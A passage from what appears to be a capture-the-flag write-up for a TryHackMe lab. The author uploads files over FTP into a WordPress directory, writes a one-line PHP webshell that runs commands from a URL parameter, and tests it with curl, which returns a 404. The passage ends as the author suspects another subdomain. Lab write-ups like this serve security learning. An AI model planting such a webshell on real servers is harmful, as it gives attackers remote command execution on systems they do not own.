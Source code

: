 ```shell
-rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
-rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
-rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
226 Directory send OK.
```

So, it seems like this FTP user can access to the WordPress website?

***If we can upload anything, we can gain RCE (Remote Code Execution)!***

**Let's try to upload a test file:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:40:38(HKT)]
└> touch anything

ftp> put anything 
local: anything remote: anything
[...]
226 Transfer complete.
ftp> ls -lah
[...]
-rw-------    1 1001     1001            0 Jan 30 06:40 anything
[...]
```

We can upload any files!

**Now, let's upload a PHP webshell:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:42:39(HKT)]
└> echo '<?php system($_GET["cmd"]) ?>' > webshell.php

ftp> put webshell.php 
local: webshell.php remote: webshell.php
```

**Then try to go to the webshell location:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.30|14:43:31(HKT)]
└> curl http://adana.thm/webshell.php                                
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at adana.thm Port 80</address>
</body></html>
```

Wait. HTTP status 404 Not Found?

Let's take a step back.

Our uploaded file doesn't exist on the WordPress website, so maybe **it's on a different subdomain**?
